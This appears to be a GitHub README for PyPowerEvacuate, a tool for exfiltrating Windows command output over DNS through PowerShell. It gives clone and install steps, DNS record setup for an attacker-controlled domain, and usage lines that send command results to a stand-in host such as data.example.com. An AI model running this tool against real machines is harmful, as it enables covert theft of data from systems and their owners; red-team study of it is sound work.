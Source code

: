 # PyPowerEvacuate

PyPowerEvacuate is a tool that allows you to exfiltrate command output over DNS on Windows machines by PowerShell.

![](https://raw.githubusercontent.com/0xAbdullah/PyPowerEvacuate/main/Screenshot.gif)

# Installation
```
git clone https://github.com/0xAbdullah/PyPowerEvacuate.git
cd PyPowerEvacuate
pip3 install requirements.txt
```

# Requirements

If you want to use your domain.
```
Set  A record to your public IP.  -Pointe to your IP/Server-
Set NS record to any subdomain. -Example: data.example.com-
```

# Usage
```
python3 PyPowerEvacuate.py -c COMMAND
python3 PyPowerEvacuate.py -c COMMAND -d data.example.com
```
